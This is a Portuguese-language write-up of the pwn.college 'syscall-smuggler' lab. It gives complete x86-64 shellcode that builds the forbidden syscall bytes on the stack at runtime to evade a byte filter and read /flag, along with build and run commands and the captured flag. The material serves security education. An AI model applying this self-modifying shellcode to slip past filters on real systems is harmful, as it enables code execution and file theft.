




# pwn.college — Syscall Smuggler
### Program Security · Shellcode Writing · No-Syscall-Instruction Constraint

> **Autor:** Pedro Tuttman  
> **Plataforma:** [pwn.college](https://pwn.college)  
> **Categoria:** Program Security — Shellcode Writing
> **Técnicas:** Shellcode injection · Runtime self-modifying shellcode · Stack-based syscall construction · Byte-by-byte instruction smuggling · Control flow hijack via `jmp rsp` · Return-address preservation via `rbx` + `jmp rbx` · Direct syscall shellcode (open/read/write/exit) · Filter evasion via deferred instruction materialization

---

## Descrição do Desafio

O desafio `syscall-smuggler` segue a mesma mecânica dos anteriores — o binário lê bytes da `stdin`, filtra e executa como código de máquina. O objetivo continua sendo ler o `/flag`.

A restrição desta vez é diferente: o shellcode **não pode conter nenhuma instrução de syscall, sysenter ou int**. O filtro escaneia os bytes em busca das seguintes sequências:

- `0f 05` → `syscall`
- `0f 34` → `sysenter`
- `80 cd` → `int`

O ambiente continua com EUID modificado, variáveis sanitizadas e file descriptors fechados — portanto a estratégia de open → read → write → exit via syscall direta continua sendo a abordagem correta. O problema é: como fazer syscalls sem colocar a instrução `syscall` no código?

---

## Reconhecimento Inicial

Comecei enviando o mesmo shellcode do desafio anterior (`shellcode1.raw`) para observar o comportamento do filtro:

```bash
cat shellcode1.raw | /challenge/syscall-smuggler
```



O binário revelou a restrição com detalhes precisos:

> **"This challenge requires that your shellcode does not have any `syscall`, `sysenter`, or `int` instructions. [...] This filter works by scanning through the shellcode for the following byte sequences: 0f05 (`syscall`), 0f34 (`sysenter`), and 80cd (`int`)."**

E ainda deu uma dica explícita:

> **"One way to evade this is to have your shellcode modify itself to insert the `syscall` instructions at runtime."**

O filtro falhou no byte 28 — exatamente onde estava o primeiro `0f 05` do shellcode1.

Para confirmar a posição dos bytes `0f 05` no shellcode, usei `objdump`:

```bash
objdump -M intel -d shellcode1.elf
```



O disassembly confirmou: os bytes `0f 05` estavam presentes em todas as chamadas de sistema — `open`, `read`, `write` e `exit`.

---

## A Estratégia: Syscall em Runtime via Stack

A solução foi construir a instrução `syscall` em tempo de execução, diretamente na stack, e desviar o fluxo de execução para lá. Isso evita completamente a presença dos bytes `0f 05` no shellcode estático.

A ideia central funciona assim:

1. **Configurar os registradores** normalmente para a syscall desejada (`rax`, `rdi`, `rsi`, `rdx`)
2. **Escrever os bytes `0f 05` na stack byte a byte** — separados, para não acionar o filtro
3. **Salvar em `rbx` o endereço da próxima instrução** após o bloco de stack-syscall (para poder retornar ao fluxo normal)
4. **Pular para `rsp`** com `jmp rsp`, executando os bytes recém-escritos na stack
5. A instrução na stack executa a syscall e depois faz **`jmp rbx`**, retornando ao ponto correto do shellcode

### Por que escrever byte a byte?

Se os bytes `0f` e `05` fossem escritos juntos como um `mov word ptr [rsp], 0x050f`, o valor `0x050f` já estaria presente como sequência de bytes no próprio shellcode — e o filtro o detectaria antes mesmo de executar. Escrevendo um byte por vez (`mov byte ptr [rsp], 0x0f` e `mov byte ptr [rsp+1], 0x05`), a sequência `0f 05` nunca aparece contígua no código estático.

### Estrutura colocada na stack para cada syscall

```
[rsp + 0] = 0x0f          ← primeiro byte de syscall
[rsp + 1] = 0x05          ← segundo byte de syscall
[rsp + 2..9] = jmp rbx    ← retorna ao fluxo do shellcode após a syscall
```

A instrução `jmp rbx` tem opcode `ff e3` — também escrita na stack como parte do payload. O valor de `rcx` carregado com `movabs rcx, 0x9090909090E3FF` contém os bytes da sequência `ff e3` (jmp rbx) seguidos de NOPs (`0x90`), que são então copiados para `[rsp+2]` de uma só vez com `mov qword ptr [rsp+2], rcx`.

---

## O Shellcode Final



```asm
.global _start
_start:
.intel_syntax noprefix

    # open("/flag", O_RDONLY) → retorna fd em rax
    mov rax, 2
    lea rdi, [rip + flag]
    mov rsi, 0
    mov rdx, 0
    lea rbx, [rip + 0x1a]           # endereço do próximo bloco (após o jmp rsp)
    mov rcx, 0x9090909090E3FF       # bytes: ff e3 = jmp rbx, 90 90... = NOPs
    mov byte ptr [rsp], 0x0f        # primeiro byte de syscall
    mov byte ptr [rsp + 1], 0x05    # segundo byte de syscall
    mov qword ptr [rsp + 2], rcx    # jmp rbx na sequência
    jmp rsp                         # executa syscall + jmp rbx na stack

    # salva o fd em rdi para o read
    mov rdi, rax

    # read(fd, buf, 0x100) → lê o conteúdo do arquivo
    mov rax, 0
    lea rsi, [rip + results]
    mov rdx, 0x100
    lea rbx, [rip + 0x1a]
    mov rcx, 0x9090909090E3FF
    mov byte ptr [rsp], 0x0f
    mov byte ptr [rsp + 1], 0x05
    mov qword ptr [rsp + 2], rcx
    jmp rsp

    # write(stdout, buf, 0x100) → imprime na tela
    mov rax, 1
    mov rdi, 1
    lea rsi, [rip + results]
    mov rdx, 0x100
    lea rbx, [rip + 0x1a]
    mov rcx, 0x9090909090E3FF
    mov byte ptr [rsp], 0x0f
    mov byte ptr [rsp + 1], 0x05
    mov qword ptr [rsp + 2], rcx
    jmp rsp

    # exit(0)
    mov rax, 60
    mov rdi, 0
    lea rbx, [rip + 0x1a]
    mov rcx, 0x9090909090E3FF
    mov byte ptr [rsp], 0x0f
    mov byte ptr [rsp + 1], 0x05
    mov qword ptr [rsp + 2], rcx
    jmp rsp

flag:
    .string "/flag"
results:
    .space 100
```

Compilando e extraindo:

```bash
gcc -nostdlib -static shellcode7.s -o shellcode7.elf
objcopy --dump-section .text=shellcode7.raw shellcode7.elf
```

---

## Execução e Resultado Final

```bash
cat shellcode7.raw | /challenge/syscall-smuggler
```



O binário exibiu o shellcode desmontado — nenhum `0f 05` presente estaticamente — e executou com sucesso. A flag foi impressa:

```
pwn.college{EMeYfzGyhmFWX-aC6mJeyF4nYSj.dFjMywCOzYTNxEzW}
```

---

## Resumo do Fluxo de Exploração

```
1. shellcode1.raw → filtro bloqueia no byte 28 (primeiro 0f 05 de syscall)
2. objdump confirma: 0f 05 presente em cada instrução syscall do shellcode
3. Estratégia: construir 0f 05 na stack em runtime, byte a byte
4. rbx salva o endereço de retorno; jmp rsp executa a syscall da stack
5. jmp rbx na stack retorna ao fluxo normal do shellcode
6. shellcode7.raw → filtro passa → syscalls executadas em runtime → flag impressa
```

---

## Comparação entre shellcode1 e shellcode7

| | shellcode1 | shellcode7 |
|---|---|---|
| Instrução `syscall` no código | ✅ Presente (`0f 05`) | ❌ Ausente estaticamente |
| Como a syscall é executada | Diretamente no código | Construída na stack em runtime |
| Passa no filtro | ❌ Falha no byte 28 | ✅ Passa |
| Usa `rbx` como retorno | ❌ | ✅ |
| Flag obtida | ❌ | ✅ |
